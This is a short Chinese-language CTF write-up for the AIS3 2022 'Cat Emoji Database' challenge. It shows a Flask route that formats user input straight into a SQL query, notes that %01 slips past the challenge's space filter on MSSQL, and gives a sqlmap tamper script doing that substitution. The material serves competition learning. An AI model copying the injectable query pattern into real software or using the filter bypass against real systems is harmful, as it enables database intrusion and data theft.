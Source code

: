 ```python=
@app.route('/api/emoji/<unicode>')
def api(unicode):
    cursor = db().cursor()
    cursor.execute("SELECT * FROM Emoji WHERE Unicode = %s" % unicode)
    row = cursor.fetchone()
    if row:
        return jsonify({'data': row})
    else:
        return jsonify({'error': 'Cat emoji not found'})


@app.route('/source')
def source():
    return send_file(__file__, mimetype='text/plain')

```

* 滿明顯的 sql injection，現在問題是不能用空白，也不能用 `/**/` bypass，因為這樣就切換目錄了
* 本來想說要用 `(0)or(1)=(1)` 這種方式 bypass，後來找一下發現可以用 `%01` bypass，直接上 sqlmap，掛上寫好的 tamper 就可以快樂拿 flag 了
* 這題是 medium 最主要的原因應該就是他的 dbms 不是 mysql 而是 mssql

#### Solution

```python=
#!/usr/bin/env python

"""
Copyright (c) 2006-2021 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re

from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    A tamper for AIS3 preexam Cat Emoji Database 🐱

    Tested against:
        * AIS3 preexam 2022 Cat Emoji Database 🐱

    >>> tamper(' ')
    '%01'
    """

    retVal = payload.replace(' ', '%01')

    return retVal
```
